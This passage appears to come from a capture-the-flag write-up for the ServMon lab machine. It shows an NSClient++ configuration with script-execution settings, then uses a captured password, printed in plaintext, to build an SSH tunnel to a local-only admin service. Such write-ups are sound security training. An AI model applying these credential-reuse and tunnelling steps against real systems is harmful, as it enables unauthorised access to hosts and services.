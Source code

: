 ```
; Scheduler - Use this to schedule check commands and jobs in conjunction with for instance passive monitoring through NSCA
Scheduler = enabled

; CheckExternalScripts - Module used to execute external scripts
CheckExternalScripts = enabled


; Script wrappings - A list of templates for defining script commands. Enter any command line here and they will be expanded by scripts placed under the wrapped scripts section. %SCRIPT% will be replaced by the actual script an %ARGS% will be replaced by any given arguments.
[/settings/external scripts/wrappings]

; Batch file - Command used for executing wrapped batch files
bat = scripts\\%SCRIPT% %ARGS%

; Visual basic script - Command line used for wrapped vbs scripts
vbs = cscript.exe //T:30 //NoLogo scripts\\lib\\wrapper.vbs %SCRIPT% %ARGS%

; POWERSHELL WRAPPING - Command line used for executing wrapped ps1 (powershell) scripts
ps1 = cmd /c echo If (-Not (Test-Path "scripts\%SCRIPT%") ) { Write-Host "UNKNOWN: Script `"%SCRIPT%`" not found."; exit(3) }; scripts\%SCRIPT% $ARGS$; exit($lastexitcode) | powershell.exe /noprofile -command -


; External scripts - A list of scripts available to run from the CheckExternalScripts module. Syntax is: `command=script arguments`
[/settings/external scripts/scripts]


; Schedules - Section for the Scheduler module.
[/settings/scheduler/schedules]

; Undocumented key
foobar = command = foobar


; External script settings - General settings for the external scripts module (CheckExternalScripts).
[/settings/external scripts]
allow arguments = true
```

Since we already have a password for `nadine`, try to create a SSH tunnel to access `http://127.0.0.1:8443`.
```
root@kali:~# ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184
nadine@10.10.10.184's password:  # L1k3B1gBut7s@W0rk

Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>
```
